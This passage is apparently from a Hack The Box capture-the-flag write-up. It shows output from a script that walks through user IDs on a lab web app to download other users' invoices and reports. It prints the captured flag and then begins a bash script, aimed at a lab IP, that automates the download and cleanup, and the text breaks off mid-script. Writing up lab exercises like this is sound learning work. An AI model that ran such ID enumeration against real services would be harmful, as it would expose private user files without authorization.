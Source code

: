 ```
Downloading flag_11dfa168ac8eb2958e38425728623c98.txt...
=== FLAG CHECK ===
HTB{4ll_f1l35_4r3_m1n3}
==================
Testing UID 16...
[+] Found documents for UID 16:
/documents/Invoice_16_12_2021.pdf
/documents/Report_16_01_2021.pdf
Downloading Invoice_16_12_2021.pdf...
Downloading Report_16_01_2021.pdf...
Testing UID 17...
[+] Found documents for UID 17:
/documents/Invoice_17_11_2021.pdf
/documents/Report_17_06_2021.pdf
Downloading Invoice_17_11_2021.pdf...
Downloading Report_17_06_2021.pdf...
Testing UID 18...
[+] Found documents for UID 18:
/documents/Invoice_18_12_2020.pdf
/documents/Report_18_01_2020.pdf
Downloading Invoice_18_12_2020.pdf...
Downloading Report_18_01_2020.pdf...
Testing UID 19...
[+] Found documents for UID 19:
/documents/Invoice_19_06_2020.pdf
/documents/Report_19_08_2020.pdf
Downloading Invoice_19_06_2020.pdf...
Downloading Report_19_08_2020.pdf...
Testing UID 20...
[+] Found documents for UID 20:
/documents/Invoice_20_06_2020.pdf
/documents/Report_20_01_2021.pdf
Downloading Invoice_20_06_2020.pdf...
Downloading Report_20_01_2021.pdf...
Operation complete. Check results.txt for details
```

We got our flag:

```
HTB{4ll_f1l35_4r3_m1n3}
```

But this is a lot of output and it can be tedious, we can modify the script a bit more for it to only show us the flag and delete all other files from our system after it's ended:

```bash
#!/bin/bash

url="http://94.237.59.180:34953"
temp_dir=".temp_docs"
flag_file=""
declare -a downloaded_files

# Create temporary directory
mkdir -p "$temp_dir"
cd "$temp_dir" || exit

cleanup() {
    echo "Cleaning up..."
    # Delete all files except the flag-containing file
    if [ -n "$flag_file" ]; then
        find . -type f ! -name "$flag_file" -delete
        echo "Kept flag file: $flag_file"
    else
```